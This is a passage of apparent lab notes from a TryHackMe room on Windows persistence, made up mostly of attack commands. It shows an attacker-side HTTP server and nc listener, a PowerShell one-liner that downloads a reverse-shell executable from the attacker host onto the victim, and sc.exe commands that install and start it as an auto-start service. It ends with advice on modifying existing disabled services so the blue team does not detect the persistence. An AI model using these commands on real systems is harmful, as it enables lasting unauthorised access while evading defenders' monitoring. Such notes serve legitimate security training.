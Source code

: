 **Kali**

```
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 4448
```

**Victim(cmd)**

```
cd C:\Windows
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:81/rev-svc.exe','rev-svc.exe')" 
```

**Victim(cmd)**

<pre><code>sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
<strong>
</strong><strong>sc.exe start THMservice2
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (2) (4).png" alt=""><figcaption></figcaption></figure>

### Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.
